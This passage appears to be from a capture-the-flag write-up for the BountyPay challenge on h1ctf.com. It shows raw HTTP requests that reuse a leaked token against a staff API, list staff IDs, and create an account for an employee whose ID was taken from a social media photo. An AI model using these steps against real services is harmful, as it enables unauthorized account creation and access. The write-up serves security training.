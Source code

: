 ## Leaked App Token => Creation of staff user account

The leaked hash, `8e9998ee3137ca9ade8f372739f062c1`, can be used as `X-Token` header for `api.bountypay.h1ctf.com` and allows access to the `/api/staff` endpoint, which was not possible before:

Issuing a GET request to `/api/staff` returns the staff IDs of Brian Oliver and Sam Jenkins.

```
GET /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
Connection: close
X-Token: 8e9998ee3137ca9ade8f372739f062c1


HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 03 Jun 2020 23:33:27 GMT
Content-Type: application/json
Connection: close
Content-Length: 104

[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```

Issuing a POST request works as well. After fiddling around with content type and request parameters I found out that a POST request with `Content-Type: application/json` and POST parameter `staff_id` seems to be valid syntaxwise, but returns `["Invalid Staff ID"]` for syntactically correct, but arbitrary staff IDs such as `STF:1111111111` and `["Staff Member already has an account"]` for existing staff IDs such as `STF:84DJKEIP38`.

However, my initial Twitter recon paid off, I remembered a Sandra Allison account following BountyPayHQ with the following post:

{F858477}

The staff ID from the badge seems to work (Sandra probably did not obtain an account for the API yet):

``` 
POST /api/staff HTTP/1.1
Content-Length: 25
Host: api.bountypay.h1ctf.com
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Type: application/x-www-form-urlencoded
Connection: close

staff_id=STF%3a8FJ3KFISL3


HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 06 Jun 2020 15:05:34 GMT
Content-Type: application/json
Connection: close
Content-Length: 110

{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```
